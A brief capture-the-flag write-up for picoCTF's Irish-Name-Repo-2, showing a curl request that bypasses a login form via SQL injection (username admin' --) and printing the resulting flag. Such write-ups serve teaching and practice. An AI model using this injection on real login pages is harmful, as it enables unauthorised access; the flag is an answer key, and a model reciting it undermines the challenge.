 # Solution

The same solution as Irish-Name-Repo-1 is not possible as password is filtered, and there is also SQL injection detection enabled.

Instead of inserting a boolean expression in the password, all we have to do is login as admin.

```bash
$ curl 'https://jupiter.challenges.picoctf.org/problem/52849/login.php' --data "username=admin' --&password=1&debug=1"
```

Our flag is `picoCTF{m0R3_SQL_plz_fa983901}`